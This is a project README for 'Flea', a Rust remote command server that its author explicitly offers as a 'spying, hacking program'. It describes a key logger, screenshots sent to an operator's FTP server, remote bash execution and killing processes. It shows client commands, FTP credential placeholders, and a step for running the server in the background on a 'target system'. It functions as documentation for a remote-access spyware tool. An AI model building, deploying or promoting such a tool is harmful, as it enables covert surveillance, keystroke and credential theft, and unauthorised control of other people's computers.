 # Flea
A simple command server written in Rust.

This repository consists of two projects:

- Command Server (root)
- Simple Command Sender (flea-client)

The server is the main project that would be developed. The client is a test program to validate the protocol and the core functionality of the Flea Server. Unless otherwise stated, the Flea works in Linux and Windows.

## Purpose

- The Flea Server could be used as a spying, hacking program and/or as a remote peer for executing your special commands. The purpose can be changed according to your needs.

## Features

- Remote commands execution based on XML format
- Taking screenshots of a host
- Sending screenshot file to FTP server
- Uploading a file from FTP to the host
- Bash execution on a host
- Key logger
- OS process list
- Killing a process

The content of the key logger file is cleaned during the server startup.
The capabilities of the program will be increased during the development of this software.

## Command format

The Flea Server requires an XML formatted command like below:

```xml
<Command name='command_name' value='optional_value'></Command>
```

Currently supported commands are:

* version : returns current server version
* bash : a host bash command. The value property has to have a command line to execute in a host
* pic : takes a screenshots of the host and sends it to FTP server
* sendlog : reads current key logger file and sends its content to receiver
* proclist : displays currently running processes in the system
* kill : kills a process. Value parameter must include PID
* upload : uploads a file to the host from FTP server. The file name must be specified in value parameter of the XML command

New commands will be added later.

## Flea Client

The client programm is for testing the server side but might be used as a utility to sending commands to the Flea Server.

These are the example commands:


Get current version of the Flea Server:
```
./flea-client -a 127.0.0.1 -c version
```

Take screenshot and send it to the FTP server:
```
./flea-client -a 127.0.0.1 -c pic
```

Upload test.txt file from FTP server to the host where Flea Server is running on:
```
./flea-client -a MY_SERVER_NAME -c upload -v test.txt
```

## Building

Except having installed Rust on Linux you also need to install the following packages to build the software:

```
build-essential, pkg-config, libx11-dev, libxcb-randr0-dev, libxcb-shm0-dev
```

## Installation

The Flea Server reads the host name of the computer and opens a port there. The name can be changed to IP address with a small code modification. If you intend to use FTP server, you will need to complete the connection data. You can do this directly in the code:

```rust
//Enter your data for FTP Server connection
const FTP_USER_NAME: &'static str = "enter_ftp_user_name";
const FTP_PASS_NAME: &'static str = "enter_ftp_user_password";
const FTP_ADDRESS_NAME: &'static str = "enter_ftp_server_ip_address";
const FTP_FOLDER_NAME: &'static str = "enter_ftp_folder_name";

```

or in the created configuration file (recommended). On Linux you will find the configuration file in a directory: /home/user_name/.config/flea_conf/ .


Build The Flea server:

```
cargo build --release
```

There are various methods of running and installing this software, so I will not describe them here, as they depend directly on your preferences and needs.
The Flea program could be run on the target system, for example:

(I assume that you are typing commands in the same directory where the server executable file is located.)

```
./flea &
```

This run the server as a process.

If you'd like to see output from the process run the command:

```
RUST_LOG=debug ./flea
```
## License

This project is licensed under either of

Apache License, Version 2.0, (LICENSE-APACHE or http://www.apache.org/licenses/LICENSE-2.0)
MIT license (LICENSE-MIT or http://opensource.org/licenses/MIT)
at your option.

## Contributing / Feedback

I am quite new to Rust. I am always glad to learn from anyone.
If you want to contribute, you are more than welcome to be a part of the project! Try to share you thoughts first! Feel free to open a new issue if you want to discuss new ideas.

Any kind of feedback is welcome!
